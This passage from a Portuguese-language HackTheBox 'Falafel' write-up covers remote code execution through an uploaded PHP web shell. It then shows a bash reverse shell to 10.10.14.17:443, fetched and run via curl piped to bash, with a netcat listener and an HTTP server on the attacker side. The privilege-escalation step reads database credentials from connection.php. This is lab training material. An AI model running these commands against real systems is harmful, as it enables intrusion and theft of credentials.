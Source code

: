 > http://10.10.10.73/uploads/0909-2054_bd1a63d419ed6bf6/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6A.php?cmd=whoami

![whoami web shell](Assets/HTB-Linux-Hard-Falafel/whoami_web_shell.png)

Temos Execução de código remoto!

### Reverse Shell

A forma mais fácil de ter um reverse shell sem ter muitos problemas com caracteres especiais e assim é partilhar um ficheiro com o código do reverse shell lá dentro, para depois fazer um curl e pipeá-lo com um bash (sim pipeá-lo, neste blog, este verbo existe xD)

Criei então um ficheiro com o nome rev.html contendo o seguinte código:

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.17/443 0>&1
```

Partilhe então um servidor http com este ficheiro, para que através do RCE, poder dar um curl ao ficheiro, e pipeá-lo com bash

```bash
sudo python3 -m http.server 80  # On one terminal
sudo nc -lvnp 443               # On another one
```

> http://10.10.10.73/uploads/0909-2054_bd1a63d419ed6bf6/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6A.php?cmd=curl%20http://10.10.14.17/rev.html|bash

## PrivEsc

Já dentro da máquina, ao vasculhar os ficheiros, pode-se encontrar credenciais em /var/www/html/connection.php

```bash
(remote) www-data@falafel:/var/www/html$ cat connection.php
<?php
   define('DB_SERVER', 'localhost:3306');
   define('DB_USERNAME', 'moshe');
   define('DB_PASSWORD', 'falafelIsReallyTasty');
   define('DB_DATABASE', 'falafel');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
   // Check connection
   if (mysqli_connect_errno())
   {
	  echo "Failed to connect to MySQL: " . mysqli_connect_error();
   }
?>
```
